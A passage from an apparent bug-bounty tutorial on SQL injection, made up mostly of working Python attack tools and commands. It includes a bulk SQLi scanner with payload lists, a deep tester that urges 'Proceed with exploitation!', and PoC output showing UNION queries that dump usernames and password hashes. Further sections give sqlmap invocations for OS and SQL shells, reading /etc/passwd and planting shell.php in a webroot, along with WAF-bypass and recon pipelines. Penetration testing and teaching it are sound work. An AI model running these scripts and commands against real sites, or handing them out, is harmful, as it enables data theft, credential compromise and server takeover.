from urllib.parse import urlparse, parse_qs, urlencode, urlunparse
from colorama import Fore, init
import argparse

init(autoreset=True)

class BugBountySQLiScanner:
    def __init__(self, urls_file, output_file='findings.txt'):
        self.urls_file = urls_file
        self.output_file = output_file
        self.findings = []
        
        # High-impact payloads
        self.payloads = [
            # Quick detection payloads
            "'",
            "\"",
            "' OR '1'='1",
            "' AND 1=1--",
            "' AND 1=2--",
            
            # Time-based (quick)
            "' AND SLEEP(3)--",
            "'; WAITFOR DELAY '00:00:03'--",
            
            # Error-based
            "' AND EXTRACTVALUE(1,CONCAT(0x7e,VERSION()))--",
            "' AND 1=CONVERT(int,@@version)--",
            
            # UNION-based
            "' UNION SELECT NULL--",
            "' UNION SELECT NULL,NULL--",
            "' UNION SELECT NULL,NULL,NULL--",
            
            # Authentication bypass
            "admin'--",
            "' OR '1'='1'--",
        ]
    
    def test_url(self, url):
        """Test URL for SQLi"""
        print(f"{Fore.CYAN}[*] Testing: {url}")
        
        parsed = urlparse(url)
        params = parse_qs(parsed.query)
        
        if not params:
            return False
        
        # Get baseline
        try:
            baseline = requests.get(url, timeout=5)
            baseline_time = baseline.elapsed.total_seconds()
            baseline_length = len(baseline.text)
        except:
            return False
        
        # Test each parameter
        for param_name in params.keys():
            for payload in self.payloads:
                # Build test URL
                test_params = params.copy()
                test_params[param_name] = [payload]
                
                new_query = urlencode(test_params, doseq=True)
                test_url = urlunparse((
                    parsed.scheme,
                    parsed.netloc,
                    parsed.path,
                    parsed.params,
                    new_query,
                    parsed.fragment
                ))
                
                try:
                    response = requests.get(test_url, timeout=10)
                    elapsed = response.elapsed.total_seconds()
                    
                    # Check for vulnerability indicators
                    
                    # Time-based detection
                    if 'SLEEP' in payload or 'WAITFOR' in payload:
                        if elapsed >= 3:
                            self.report_finding(url, param_name, payload, 'Time-Based SQLi')
                            return True
                    
                    # Error-based detection
                    error_keywords = ['sql', 'mysql', 'syntax', 'postgresql', 'oracle', 'mssql']
                    if any(keyword in response.text.lower() for keyword in error_keywords):
                        self.report_finding(url, param_name, payload, 'Error-Based SQLi')
                        return True
                    
                    # Boolean-based detection
                    if 'AND 1=1' in payload or 'AND 1=2' in payload:
                        length_diff = abs(len(response.text) - baseline_length)
                        if length_diff > 100:
                            self.report_finding(url, param_name, payload, 'Boolean-Based SQLi')
                            return True
                    
                    # Status code change
                    if response.status_code != baseline.status_code:
                        if response.status_code == 500:
                            self.report_finding(url, param_name, payload, 'Potential SQLi (500 error)')
                            return True
                    
                except requests.exceptions.Timeout:
                    if 'SLEEP' in payload or 'WAITFOR' in payload:
                        self.report_finding(url, param_name, payload, 'Time-Based SQLi (Timeout)')
                        return True
                except:
                    pass
                
                time.sleep(0.1)  # Rate limiting
        
        return False
    
    def report_finding(self, url, param, payload, vuln_type):
        """Report vulnerability finding"""
        finding = {
            'url': url,
            'parameter': param,
            'payload': payload,
            'type': vuln_type,
            'timestamp': time.strftime("%Y-%m-%d %H:%M:%S")
        }
        
        self.findings.append(finding)
        
        print(f"{Fore.RED}[!] VULNERABILITY FOUND!")
        print(f"    Type: {vuln_type}")
        print(f"    URL: {url}")
        print(f"    Parameter: {param}")
        print(f"    Payload: {payload}\n")
        
        # Save to file immediately
        with open(self.output_file, 'a') as f:
            f.write(f"[{finding['timestamp']}] {vuln_type}\n")
            f.write(f"URL: {url}\n")
            f.write(f"Parameter: {param}\n")
            f.write(f"Payload: {payload}\n")
            f.write("-" * 70 + "\n\n")
    
    def scan(self):
        """Scan all URLs from file"""
        print(f"{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}Bug Bounty SQLi Scanner")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        try:
            with open(self.urls_file, 'r') as f:
                urls = [line.strip() for line in f if line.strip()]
        except FileNotFoundError:
            print(f"{Fore.RED}[!] URLs file not found: {self.urls_file}")
            return
        
        print(f"{Fore.CYAN}[*] Loaded {len(urls)} URLs")
        print(f"{Fore.CYAN}[*] Output file: {self.output_file}\n")
        
        for i, url in enumerate(urls, 1):
            print(f"{Fore.YELLOW}[{i}/{len(urls)}] ", end='')
            self.test_url(url)
        
        # Summary
        print(f"\n{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}Scan Complete")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        if self.findings:
            print(f"{Fore.RED}[!] Found {len(self.findings)} potential SQLi vulnerabilities!")
            print(f"{Fore.GREEN}[+] Results saved to: {self.output_file}\n")
            
            # Group by type
            types = {}
            for finding in self.findings:
                vuln_type = finding['type']
                types[vuln_type] = types.get(vuln_type, 0) + 1
            
            print(f"{Fore.CYAN}Breakdown:")
            for vuln_type, count in types.items():
                print(f"  {vuln_type}: {count}")
        else:
            print(f"{Fore.GREEN}[+] No vulnerabilities found")


def main():
    parser = argparse.ArgumentParser(description='Bug Bounty SQLi Scanner')
    parser.add_argument('-u', '--urls', required=True, help='File containing URLs to test')
    parser.add_argument('-o', '--output', default='findings.txt', help='Output file for findings')
    
    args = parser.parse_args()
    
    scanner = BugBountySQLiScanner(args.urls, args.output)
    scanner.scan()


if __name__ == "__main__":
    main()
```

**Usage:**

```bash
# Create URLs file
cat urls_with_params.txt | grep "?" > testable_urls.txt

# Run scanner
python bounty_scanner.py -u testable_urls.txt -o findings.txt

# Output:
# ======================================================================
# Bug Bounty SQLi Scanner
# ======================================================================
# 
# [*] Loaded 150 URLs
# [*] Output file: findings.txt
# 
# [1/150] [*] Testing: http://target.com/product.php?id=1
# [!] VULNERABILITY FOUND!
#     Type: Error-Based SQLi
#     URL: http://target.com/product.php?id=1
#     Parameter: id
#     Payload: ' AND EXTRACTVALUE(1,CONCAT(0x7e,VERSION()))--
# 
# [2/150] [*] Testing: http://target.com/search.php?q=test
# ...
# 
# ======================================================================
# Scan Complete
# ======================================================================
# 
# [!] Found 7 potential SQLi vulnerabilities!
# [+] Results saved to: findings.txt
# 
# Breakdown:
#   Error-Based SQLi: 3
#   Time-Based SQLi: 2
#   Boolean-Based SQLi: 2
```

### Phase 5: Manual Testing & Validation

#### Manual Testing Checklist

```markdown
## Priority Testing Areas

### 1. Authentication Endpoints
- [ ] Test username field with: admin'--
- [ ] Test password field with: ' OR '1'='1
- [ ] Test both fields with SQLi
- [ ] Test forgot password functionality
- [ ] Test registration form
- [ ] Test account verification

### 2. Search Functionality
- [ ] Basic SQLi payloads
- [ ] UNION-based extraction
- [ ] Blind SQLi (boolean/time)
- [ ] Special characters handling
- [ ] Multiple search parameters

### 3. API Endpoints
- [ ] Test all parameters
- [ ] Test JSON input
- [ ] Test XML input
- [ ] Test different HTTP methods
- [ ] Test authentication headers
- [ ] Test rate limiting bypass

### 4. Admin Panels
- [ ] All CRUD operations
- [ ] User management
- [ ] Report generation
- [ ] Export functionality
- [ ] Filtering/sorting
- [ ] Batch operations

### 5. Less Common Vectors
- [ ] HTTP Headers (User-Agent, Referer, X-Forwarded-For)
- [ ] Cookies
- [ ] Hidden form fields
- [ ] File upload filenames
- [ ] Webhook URLs
```

#### Deep Manual Testing Script

```python
#!/usr/bin/env python3
"""
Deep Manual SQLi Testing Tool
For thorough testing of high-value targets
"""

import requests
import time
from colorama import Fore, init

init(autoreset=True)

class DeepTester:
    def __init__(self, url, param):
        self.url = url
        self.param = param
        self.session = requests.Session()
        
    def test_comprehensive(self):
        """Comprehensive testing suite"""
        print(f"{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}Deep Manual SQLi Testing")
        print(f"{Fore.YELLOW}{'='*70}\n")
        print(f"{Fore.CYAN}Target: {self.url}")
        print(f"{Fore.CYAN}Parameter: {self.param}\n")
        
        tests = [
            ("Syntax Error Test", self.test_syntax_errors),
            ("Boolean Logic Test", self.test_boolean),
            ("Time-Based Test", self.test_time_based),
            ("UNION Test", self.test_union),
            ("Error-Based Test", self.test_error_based),
            ("Stacked Queries Test", self.test_stacked),
            ("WAF Detection", self.test_waf),
        ]
        
        results = {}
        
        for test_name, test_func in tests:
            print(f"{Fore.CYAN}[*] Running: {test_name}")
            result = test_func()
            results[test_name] = result
            
            if result['vulnerable']:
                print(f"{Fore.RED}[!] VULNERABLE: {result['details']}")
            else:
                print(f"{Fore.GREEN}[+] Not vulnerable")
            
            print()
            time.sleep(1)
        
        # Summary
        print(f"{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}Test Summary")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        vulnerable_tests = [name for name, result in results.items() if result['vulnerable']]
        
        if vulnerable_tests:
            print(f"{Fore.RED}[!] Vulnerable to:")
            for test in vulnerable_tests:
                print(f"    - {test}")
            print(f"\n{Fore.YELLOW}[*] Proceed with exploitation!")
        else:
            print(f"{Fore.GREEN}[+] No vulnerabilities detected")
    
    def test_syntax_errors(self):
        """Test for syntax error responses"""
        payloads = ["'", '"', "`", "')"]
        
        for payload in payloads:
            try:
                response = self.session.get(f"{self.url}?{self.param}={payload}", timeout=5)
                
                error_keywords = ['sql', 'syntax', 'mysql', 'postgresql', 'oracle', 'mssql', 'error']
                if any(keyword in response.text.lower() for keyword in error_keywords):
                    return {
                        'vulnerable': True,
                        'details': f"Syntax error with payload: {payload}",
                        'payload': payload
                    }
            except:
                pass
        
        return {'vulnerable': False}
    
    def test_boolean(self):
        """Test for boolean-based blind SQLi"""
        true_payload = "1' AND '1'='1"
        false_payload = "1' AND '1'='2"
        
        try:
            true_resp = self.session.get(f"{self.url}?{self.param}={true_payload}", timeout=5)
            false_resp = self.session.get(f"{self.url}?{self.param}={false_payload}", timeout=5)
            
            # Check for differences
            if len(true_resp.text) != len(false_resp.text):
                return {
                    'vulnerable': True,
                    'details': f"Boolean-based SQLi detected (length diff: {abs(len(true_resp.text) - len(false_resp.text))})",
                    'true_length': len(true_resp.text),
                    'false_length': len(false_resp.text)
                }
            
            if true_resp.status_code != false_resp.status_code:
                return {
                    'vulnerable': True,
                    'details': f"Boolean-based SQLi detected (status diff)",
                    'true_status': true_resp.status_code,
                    'false_status': false_resp.status_code
                }
        except:
            pass
        
        return {'vulnerable': False}
    
    def test_time_based(self):
        """Test for time-based blind SQLi"""
        payloads = [
            ("MySQL", "1' AND SLEEP(5)--"),
            ("MSSQL", "1'; WAITFOR DELAY '00:00:05'--"),
            ("PostgreSQL", "1'; SELECT pg_sleep(5)--"),
            ("Oracle", "1' AND DBMS_LOCK.SLEEP(5)--")
        ]
        
        for db_type, payload in payloads:
            try:
                start = time.time()
                self.session.get(f"{self.url}?{self.param}={payload}", timeout=10)
                elapsed = time.time() - start
                
                if elapsed >= 5:
                    return {
                        'vulnerable': True,
                        'details': f"Time-based SQLi ({db_type}) - Delay: {elapsed:.2f}s",
                        'database': db_type,
                        'delay': elapsed
                    }
            except requests.exceptions.Timeout:
                return {
                    'vulnerable': True,
                    'details': f"Time-based SQLi ({db_type}) - Request timed out",
                    'database': db_type
                }
            except:
                pass
        
        return {'vulnerable': False}
    
    def test_union(self):
        """Test for UNION-based SQLi"""
        # First, find number of columns
        for i in range(1, 11):
            payload = f"1' ORDER BY {i}--"
            
            try:
                response = self.session.get(f"{self.url}?{self.param}={payload}", timeout=5)
                
                if response.status_code == 500 or 'error' in response.text.lower():
                    # Found column count
                    columns = i - 1
                    
                    # Test UNION
                    nulls = ','.join(['NULL'] * columns)
                    union_payload = f"1' UNION SELECT {nulls}--"
                    
                    union_resp = self.session.get(f"{self.url}?{self.param}={union_payload}", timeout=5)
                    
                    if union_resp.status_code == 200:
                        return {
                            'vulnerable': True,
                            'details': f"UNION-based SQLi with {columns} columns",
                            'columns': columns
                        }
                    
                    break
            except:
                pass
        
        return {'vulnerable': False}
    
    def test_error_based(self):
        """Test for error-based SQLi"""
        payloads = [
            ("MySQL", "1' AND EXTRACTVALUE(1,CONCAT(0x7e,VERSION()))--"),
            ("MSSQL", "1' AND 1=CONVERT(int,@@version)--"),
            ("PostgreSQL", "1' AND 1=CAST(version() AS int)--"),
            ("Oracle", "1' AND 1=CTXSYS.DRITHSX.SN(1,(SELECT user FROM dual))--")
        ]
        
        for db_type, payload in payloads:
            try:
                response = self.session.get(f"{self.url}?{self.param}={payload}", timeout=5)
                
                # Check if database version or info in error
                db_keywords = ['mysql', 'postgresql', 'oracle', 'mssql', 'microsoft', 'version']
                if any(keyword in response.text.lower() for keyword in db_keywords):
                    return {
                        'vulnerable': True,
                        'details': f"Error-based SQLi ({db_type})",
                        'database': db_type,
                        'response_snippet': response.text[:200]
                    }
            except:
                pass
        
        return {'vulnerable': False}
    
    def test_stacked(self):
        """Test for stacked queries"""
        payloads = [
            "1'; SELECT SLEEP(5)--",
            "1'; WAITFOR DELAY '00:00:05'--"
        ]
        
        for payload in payloads:
            try:
                start = time.time()
                self.session.get(f"{self.url}?{self.param}={payload}", timeout=10)
                elapsed = time.time() - start
                
                if elapsed >= 5:
                    return {
                        'vulnerable': True,
                        'details': f"Stacked queries supported",
                        'delay': elapsed
                    }
            except:
                pass
        
        return {'vulnerable': False}
    
    def test_waf(self):
        """Detect WAF presence"""
        waf_payloads = [
            "' UNION SELECT NULL--",
            "' OR '1'='1",
            "<script>alert(1)</script>"
        ]
        
        for payload in waf_payloads:
            try:
                response = self.session.get(f"{self.url}?{self.param}={payload}", timeout=5)
                
                # Common WAF indicators
                waf_indicators = {
                    'Cloudflare': ['cloudflare', 'cf-ray'],
                    'Imperva': ['incapsula', '_incap_'],
                    'ModSecurity': ['mod_security', 'modsecurity'],
                    'AWS WAF': ['awselb', 'awswaf'],
                }
                
                for waf_name, indicators in waf_indicators.items():
                    if any(indicator in response.text.lower() or indicator in str(response.headers).lower() for indicator in indicators):
                        return {
                            'vulnerable': False,
                            'details': f"WAF detected: {waf_name}",
                            'waf': waf_name
                        }
                
                if response.status_code in [403, 406, 419]:
                    return {
                        'vulnerable': False,
                        'details': f"Possible WAF (status {response.status_code})"
                    }
            except:
                pass
        
        return {'vulnerable': False, 'details': 'No WAF detected'}


def main():
    import argparse
    
    parser = argparse.ArgumentParser(description='Deep Manual SQLi Tester')
    parser.add_argument('-u', '--url', required=True, help='Target URL')
    parser.add_argument('-p', '--param', required=True, help='Parameter to test')
    
    args = parser.parse_args()
    
    tester = DeepTester(args.url, args.param)
    tester.test_comprehensive()


if __name__ == "__main__":
    main()
```

**Usage:**

```bash
python deep_tester.py -u "http://target.com/product.php" -p "id"

# Output:
# ======================================================================
# Deep Manual SQLi Testing
# ======================================================================
# 
# Target: http://target.com/product.php
# Parameter: id
# 
# [*] Running: Syntax Error Test
# [!] VULNERABLE: Syntax error with payload: '
# 
# [*] Running: Boolean Logic Test
# [!] VULNERABLE: Boolean-based SQLi detected (length diff: 1245)
# 
# [*] Running: Time-Based Test
# [+] Not vulnerable
# 
# [*] Running: UNION Test
# [!] VULNERABLE: UNION-based SQLi with 3 columns
# 
# [*] Running: Error-Based Test
# [!] VULNERABLE: Error-based SQLi (MySQL)
# 
# [*] Running: Stacked Queries Test
# [+] Not vulnerable
# 
# [*] Running: WAF Detection
# [+] Not vulnerable
# 
# ======================================================================
# Test Summary
# ======================================================================
# 
# [!] Vulnerable to:
#     - Syntax Error Test
#     - Boolean Logic Test
#     - UNION Test
#     - Error-Based Test
# 
# [*] Proceed with exploitation!
```

### Phase 6: Exploitation & Proof of Concept

#### Creating Effective PoC

```python
#!/usr/bin/env python3
"""
Proof of Concept Generator for Bug Bounty Reports
Creates clear, reproducible PoC demonstrations
"""

import requests
from colorama import Fore, init

init(autoreset=True)

class PoCGenerator:
    def __init__(self, url, param, vuln_type):
        self.url = url
        self.param = param
        self.vuln_type = vuln_type
        
    def generate_poc(self):
        """Generate PoC based on vulnerability type"""
        print(f"{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}Proof of Concept Generator")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        if self.vuln_type == 'union':
            self.generate_union_poc()
        elif self.vuln_type == 'error':
            self.generate_error_poc()
        elif self.vuln_type == 'boolean':
            self.generate_boolean_poc()
        elif self.vuln_type == 'time':
            self.generate_time_poc()
        elif self.vuln_type == 'auth':
            self.generate_auth_bypass_poc()
    
    def generate_union_poc(self):
        """Generate UNION-based SQLi PoC"""
        print(f"{Fore.CYAN}UNION-Based SQL Injection PoC\n")
        
        # Step 1: Determine columns
        print(f"{Fore.YELLOW}Step 1: Determine number of columns")
        print(f"Payload: {self.url}?{self.param}=1' ORDER BY 3--")
        print(f"Result: Page loads normally\n")
        
        print(f"Payload: {self.url}?{self.param}=1' ORDER BY 4--")
        print(f"Result: Error or different response")
        print(f"{Fore.GREEN}Conclusion: 3 columns in SELECT statement\n")
        
        # Step 2: Find injectable columns
        print(f"{Fore.YELLOW}Step 2: Identify injectable columns")
        print(f"Payload: {self.url}?{self.param}=1' UNION SELECT 'a','b','c'--")
        print(f"Result: Values 'a', 'b', 'c' visible in response")
        print(f"{Fore.GREEN}Conclusion: All 3 columns are injectable\n")
        
        # Step 3: Extract data
        print(f"{Fore.YELLOW}Step 3: Extract database information")
        print(f"Payload: {self.url}?{self.param}=1' UNION SELECT @@version,database(),user()--")
        print(f"Result: Database version, name, and user displayed")
        print(f"{Fore.GREEN}Example output: MySQL 5.7.33 | webapp_db | webapp@localhost\n")
        
        # Step 4: Extract sensitive data
        print(f"{Fore.YELLOW}Step 4: Extract sensitive data")
        print(f"Payload: {self.url}?{self.param}=1' UNION SELECT username,password,email FROM users--")
        print(f"Result: User credentials extracted")
        print(f"{Fore.RED}Example: admin | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@site.com\n")
        
        # curl command
        print(f"{Fore.CYAN}Reproduction curl command:")
        print(f'''curl "{self.url}?{self.param}=1' UNION SELECT username,password,email FROM users--"''')
    
    def generate_auth_bypass_poc(self):
        """Generate authentication bypass PoC"""
        print(f"{Fore.CYAN}Authentication Bypass PoC\n")
        
        print(f"{Fore.YELLOW}Step 1: Normal login attempt")
        print(f"Username: admin")
        print(f"Password: wrongpassword")
        print(f"Result: Login failed\n")
        
        print(f"{Fore.YELLOW}Step 2: SQLi payload in username")
        print(f"Username: admin'--")
        print(f"Password: [anything]")
        print(f"{Fore.RED}Result: Successful login as admin!\n")
        
        print(f"{Fore.YELLOW}Explanation:")
        print(f"Original query: SELECT * FROM users WHERE username='admin'--' AND password='hash'")
        print(f"The -- comments out the password check, allowing bypass\n")
        
        print(f"{Fore.CYAN}Reproduction curl command:")
        print(f'''curl -X POST "{self.url}" -d "username=admin'--&password=anything"''')


def main():
    import argparse
    
    parser = argparse.ArgumentParser(description='PoC Generator')
    parser.add_argument('-u', '--url', required=True, help='Target URL')
    parser.add_argument('-p', '--param', required=True, help='Vulnerable parameter')
    parser.add_argument('-t', '--type', required=True, 
                       choices=['union', 'error', 'boolean', 'time', 'auth'],
                       help='Vulnerability type')
    
    args = parser.parse_args()
    
    generator = PoCGenerator(args.url, args.param, args.type)
    generator.generate_poc()


if __name__ == "__main__":
    main()
```

## 🤖 Chapter 21: Automation & Tools

### Essential Tools for Bug Bounty Hunters

```
Tool Categories:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
1. Reconnaissance Tools
2. SQLi Detection Tools
3. Exploitation Frameworks
4. Proxy & Interception Tools
5. Automation Frameworks
6. Custom Scripts
7. Reporting Tools
```

### Reconnaissance Tools

#### Subdomain Enumeration

```bash
# Subfinder - Fast subdomain discovery
subfinder -d target.com -o subdomains.txt -silent
subfinder -d target.com -all -o all_subdomains.txt

# Amass - Comprehensive enumeration
amass enum -passive -d target.com -o amass_output.txt
amass enum -active -d target.com -brute -w wordlist.txt -o active_enum.txt

# Assetfinder - Simple but effective
assetfinder --subs-only target.com > assetfinder_output.txt

# Findomain - Multi-source enumeration
findomain -t target.com -o

# Sublist3r - Classic tool
python sublist3r.py -d target.com -o sublist3r_output.txt

# DNSGen - Generate DNS permutations
cat subdomains.txt | dnsgen - > permutations.txt

# Combine all sources
cat subdomains.txt amass_output.txt assetfinder_output.txt | sort -u > all_subs.txt

# Resolve active domains
cat all_subs.txt | httpx -silent -o live_domains.txt

# Get technology info
cat live_domains.txt | httpx -title -tech-detect -status-code -o web_info.txt
```

#### URL & Parameter Discovery

```bash
# Gospider - Fast web crawler
gospider -s https://target.com -c 10 -d 3 -o output
cat output/* | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u > urls.txt

# GAU (Get All URLs) - From archive
gau target.com > gau_urls.txt
gau target.com --blacklist png,jpg,gif,css,woff > gau_filtered.txt

# Waybackurls - Internet Archive
waybackurls target.com > wayback_urls.txt

# ParamSpider - Parameter discovery
python paramspider.py -d target.com -o params.txt

# Arjun - Hidden parameter finder
arjun -u https://target.com/page -o arjun_params.txt
arjun -u https://target.com/page -w wordlist.txt

# Katana - Next-gen crawler
katana -u https://target.com -d 5 -jc -kf all -o katana_output.txt

# Combine and filter for parameters
cat urls.txt gau_urls.txt wayback_urls.txt | grep "?" | sort -u > urls_with_params.txt

# Extract unique parameters
cat urls_with_params.txt | unfurl keys | sort -u > unique_params.txt
```

### SQLi Detection Tools

#### SQLMap - The Swiss Army Knife

```bash
# Installation
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python sqlmap.py --update

# Basic usage
sqlmap -u "http://target.com/page.php?id=1" --batch

# Full scan
sqlmap -u "http://target.com/page.php?id=1" \
    --batch \
    --level=5 \
    --risk=3 \
    --threads=10 \
    --random-agent \
    --technique=BEUST

# Test from file
sqlmap -m urls.txt --batch --level=2 --risk=2

# POST request
sqlmap -u "http://target.com/login" \
    --data="username=admin&password=pass" \
    --batch

# With authentication
sqlmap -u "http://target.com/dashboard?id=1" \
    --cookie="PHPSESSID=abc123" \
    --batch

# Custom injection point
sqlmap -u "http://target.com/page" \
    --data="id=1*&name=test" \
    --batch

# Headers
sqlmap -u "http://target.com/page" \
    --headers="X-Forwarded-For: 127.0.0.1*\nUser-Agent: test*" \
    --batch

# Tamper scripts (WAF bypass)
sqlmap -u "http://target.com/page?id=1" \
    --tamper=space2comment,between \
    --batch

# Database enumeration
sqlmap -u "http://target.com/page?id=1" \
    --batch \
    --dbs  # List databases

sqlmap -u "http://target.com/page?id=1" \
    --batch \
    -D database_name \
    --tables  # List tables

sqlmap -u "http://target.com/page?id=1" \
    --batch \
    -D database_name \
    -T users \
    --columns  # List columns

sqlmap -u "http://target.com/page?id=1" \
    --batch \
    -D database_name \
    -T users \
    -C username,password \
    --dump  # Extract data

# OS Shell
sqlmap -u "http://target.com/page?id=1" \
    --batch \
    --os-shell

# SQL Shell
sqlmap -u "http://target.com/page?id=1" \
    --batch \
    --sql-shell

# File operations
sqlmap -u "http://target.com/page?id=1" \
    --batch \
    --file-read="/etc/passwd"

sqlmap -u "http://target.com/page?id=1" \
    --batch \
    --file-write="shell.php" \
    --file-dest="/var/www/html/shell.php"

# Useful SQLMap options:
--batch              # Never ask for user input
--flush-session      # Clear cached data
--fresh-queries      # Ignore cached queries
--level=5            # Thoroughness (1-5)
--risk=3             # Risk level (1-3)
--threads=10         # Concurrent threads
--timeout=10         # Request timeout
--retries=3          # Retry failed requests
--randomize=         # Randomize parameter value
--skip-waf           # Skip WAF detection
--mobile             # Use mobile User-Agent
--proxy=             # Use proxy
--tor                # Use Tor network
```

#### SQLMap Configuration File

```ini
# ~/.sqlmap/sqlmap.conf

[Target]
url = 
data = 
cookie = 
headers = 

[Request]
method = GET
timeout = 30
retries = 3
delay = 0
threads = 1

[Optimization]
keep-alive = True
null-connection = False
threads = 10

[Injection]
technique = BEUST
level = 1
risk = 1

[Detection]
skip-waf = False

[Enumeration]
batch = True
```

#### NoSQLMap - NoSQL Injection

```bash
# Installation
git clone https://github.com/codingo/NoSQLMap.git
cd NoSQLMap
python nosqlmap.py

# MongoDB injection
python nosqlmap.py -u "http://target.com/login" \
    -p "username,password" \
    --attack=1  # Auth bypass

# Scan for vulnerabilities
python nosqlmap.py -u "http://target.com/api/users" \
    -p "id" \
    --scan
```

#### Ghauri - Advanced SQLi Tool

```bash
# Installation
pip install ghauri

# Basic usage
ghauri -u "http://target.com/page?id=1"

# With options
ghauri -u "http://target.com/page?id=1" \
    --level=3 \
    --technique=B  # Boolean-based

# Batch mode
ghauri -u "http://target.com/page?id=1" \
    --batch \
    --dbs
```

### Proxy & Interception Tools

#### Burp Suite Configuration

```
Essential Burp Suite Extensions for SQLi:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

1. SQLiPy Sqlmap Integration
   - Run SQLMap directly from Burp
   - Right-click request → "Send to SQLMap"

2. SQLiPy SQLi Detector
   - Passive SQLi detection
   - Highlights potential injections

3. CO2 (Burp SQLMapper)
   - Interactive SQLMap integration
   - Better UI than SQLiPy

4. Autorize
   - Test authorization
   - Useful for post-auth SQLi

5. Turbo Intruder
   - Fast request sending
   - Good for time-based SQLi

6. ActiveScan++
   - Enhanced active scanning
   - Better SQLi detection

7. Hackvertor
   - Encode/decode payloads
   - Useful for WAF bypass
```

**Burp Suite Workflow:**

```
1. Capture request in Proxy
   ↓
2. Send to Repeater (Ctrl+R)
   ↓
3. Modify parameter with SQLi payload
   ↓
4. Analyze response
   ↓
5. If vulnerable:
   a. Send to SQLMap (extension)
   b. Or continue manual testing
   ↓
6. Document in Target → Site map → Add comment
```

#### Burp Intruder for SQLi

```
1. Send request to Intruder
2. Position markers on parameter: §value§
3. Payload type: Simple list
4. Load payload list:
   - /usr/share/seclists/Fuzzing/SQLi/
   - Generic-SQLi.txt
   - MySQL-SQLi-Login-Bypass.txt
5. Start attack
6. Analyze results:
   - Sort by Length
   - Sort by Status
   - Grep for error messages
7. Investigate anomalies
```

**Burp Scanner Configuration:**

```
Scanner → Scan configuration → New
Name: SQLi Focused Scan

Checks:
✓ SQL injection
✓ SQL injection (second order)
✓ XML injection
✓ Server-side template injection

Optimization:
✓ Thorough scan
✓ Follow redirections

Save and use for targets
```

### Automation Frameworks

#### Custom SQLi Automation Pipeline

```python
#!/usr/bin/env python3
"""
Complete SQLi Bug Bounty Automation Pipeline
From reconnaissance to exploitation
"""

import subprocess
import os
import time
from colorama import Fore, Style, init
import argparse

init(autoreset=True)

class SQLiPipeline:
    def __init__(self, target, output_dir='output'):
        self.target = target
        self.output_dir = output_dir
        self.create_directories()
        
    def create_directories(self):
        """Create output directory structure"""
        dirs = [
            self.output_dir,
            f"{self.output_dir}/recon",
            f"{self.output_dir}/scan",
            f"{self.output_dir}/exploit",
            f"{self.output_dir}/reports"
        ]
        
        for directory in dirs:
            os.makedirs(directory, exist_ok=True)
    
    def log(self, message, level='info'):
        """Log messages with colors"""
        colors = {
            'info': Fore.CYAN,
            'success': Fore.GREEN,
            'warning': Fore.YELLOW,
            'error': Fore.RED
        }
        
        color = colors.get(level, Fore.WHITE)
        print(f"{color}[{level.upper()}] {message}")
    
    def run_command(self, command, description):
        """Run shell command and capture output"""
        self.log(f"Running: {description}", 'info')
        
        try:
            result = subprocess.run(
                command,
                shell=True,
                capture_output=True,
                text=True,
                timeout=3600  # 1 hour timeout
            )
            
            if result.returncode == 0:
                self.log(f"Completed: {description}", 'success')
                return result.stdout
            else:
                self.log(f"Failed: {description}", 'error')
                return None
                
        except subprocess.TimeoutExpired:
            self.log(f"Timeout: {description}", 'warning')
            return None
        except Exception as e:
            self.log(f"Error: {str(e)}", 'error')
            return None
    
    def phase1_subdomain_enum(self):
        """Phase 1: Subdomain Enumeration"""
        self.log("=" * 70, 'info')
        self.log("PHASE 1: Subdomain Enumeration", 'info')
        self.log("=" * 70, 'info')
        
        output_file = f"{self.output_dir}/recon/subdomains.txt"
        
        # Subfinder
        self.run_command(
            f"subfinder -d {self.target} -silent -o {self.output_dir}/recon/subfinder.txt",
            "Subfinder enumeration"
        )
        
        # Assetfinder
        self.run_command(
            f"assetfinder --subs-only {self.target} > {self.output_dir}/recon/assetfinder.txt",
            "Assetfinder enumeration"
        )
        
        # Amass (passive only for speed)
        self.run_command(
            f"amass enum -passive -d {self.target} -o {self.output_dir}/recon/amass.txt",
            "Amass passive enumeration"
        )
        
        # Combine and deduplicate
        self.run_command(
            f"cat {self.output_dir}/recon/*.txt | sort -u > {output_file}",
            "Combining subdomain lists"
        )
        
        # Count results
        with open(output_file, 'r') as f:
            count = len(f.readlines())
        
        self.log(f"Found {count} unique subdomains", 'success')
        
        return output_file
    
    def phase2_live_hosts(self, subdomains_file):
        """Phase 2: Identify Live Hosts"""
        self.log("=" * 70, 'info')
        self.log("PHASE 2: Live Host Detection", 'info')
        self.log("=" * 70, 'info')
        
        output_file = f"{self.output_dir}/recon/live_hosts.txt"
        
        self.run_command(
            f"cat {subdomains_file} | httpx -silent -o {output_file}",
            "Probing for live hosts"
        )
        
        with open(output_file, 'r') as f:
            count = len(f.readlines())
        
        self.log(f"Found {count} live hosts", 'success')
        
        return output_file
    
    def phase3_crawl_urls(self, live_hosts_file):
        """Phase 3: Crawl for URLs and Parameters"""
        self.log("=" * 70, 'info')
        self.log("PHASE 3: URL Crawling", 'info')
        self.log("=" * 70, 'info')
        
        # Crawl with gospider
        self.run_command(
            f"cat {live_hosts_file} | gospider -c 10 -d 2 -o {self.output_dir}/recon/gospider",
            "Crawling with gospider"
        )
        
        # Get URLs from archives
        self.run_command(
            f"cat {live_hosts_file} | gau > {self.output_dir}/recon/gau.txt",
            "Fetching archived URLs"
        )
        
        # Extract URLs with parameters
        output_file = f"{self.output_dir}/recon/urls_with_params.txt"
        self.run_command(
            f"cat {self.output_dir}/recon/gospider/* {self.output_dir}/recon/gau.txt | "
            f"grep '?' | sort -u > {output_file}",
            "Extracting URLs with parameters"
        )
        
        with open(output_file, 'r') as f:
            count = len(f.readlines())
        
        self.log(f"Found {count} URLs with parameters", 'success')
        
        return output_file
    
    def phase4_sqli_scan(self, urls_file):
